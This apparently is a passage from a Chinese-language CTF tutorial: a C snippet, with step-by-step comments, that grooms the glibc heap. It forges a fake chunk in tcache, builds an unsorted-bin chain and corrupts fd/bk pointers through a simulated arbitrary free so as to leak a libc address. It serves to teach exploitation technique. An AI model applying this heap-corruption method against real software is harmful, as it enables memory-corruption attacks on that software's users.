 ```c
    /* 第一步，释放0x3e0和0x3f0的chunk，在tcache上打一个fake chunk的size出来0x10001 */
    size_t *temp1 = malloc(0x3d0);
    size_t *temp2 = malloc(0x3e0);

    free(temp1);
    free(temp2);

    size_t heap_base = (size_t)temp1 - 0x2a0;

    /* 第二步，申请好所有堆块 */

    // 申请7个tcache的chunk
    size_t *tcache_chunks[7];
    for (int i = 0; i < 7; i++)
    {
        tcache_chunks[i] = (size_t *)malloc(0xf0);
    }

    // 申请三个unsortedbin的chunk，要隔开
    size_t *unsorted_chunk[3];
    size_t *gap[3];

    for (int i = 0; i < 3; i++)
    {
        unsorted_chunk[i] = (size_t *)malloc(0xf0);
        gap[i] = (size_t *)malloc(0x20);
    }

    // 写fake chunk (0x10001那个chunk)的下一个chunk的prev_size和size
    size_t *big_gap = (size_t *)malloc(0xeb70);
    size_t *secure = (size_t *)malloc(0x20);
    secure[0] = 0x10000;
    secure[1] = 0x20;

    /* 第三步，构造unsortedbin链 */

    // 先填满tcache
    for (int i = 0; i < 7; i++)
    {
        free(tcache_chunks[i]);
    }

    // 构造好unsortedbin链
    for (int i = 0; i < 3; i++)
    {
        free(unsorted_chunk[i]);
    }

    /* 第四步，通过漏洞让fake chunk的fd和bk满足条件 */
    // 这里需要根据题目漏洞。我们这里随便使用任意地址free来完成这个条件
    *(size_t *)((size_t)unsorted_chunk[0] - 0x18) = 0x21;
    free((size_t *)((size_t)unsorted_chunk[0] - 0x10));
    *(size_t *)((size_t)unsorted_chunk[0] - 0x8) = 0x101;

    *(size_t *)((size_t)unsorted_chunk[2] - 0x18) = 0x31;
    free((size_t *)((size_t)unsorted_chunk[2] - 0x10));
    *(size_t *)((size_t)unsorted_chunk[2] - 0x8) = 0x101;

    /* 第五步， 编辑unsortedbin的第一个chunk的fd和第三个chunk的bk，让fake chunk在他们中间 */
    unsorted_chunk[2][0] = heap_base + 0x80;
    unsorted_chunk[0][1] = heap_base + 0x80;

    /* 第六步，申请chunk即可让libc地址挂入tcache~ */
```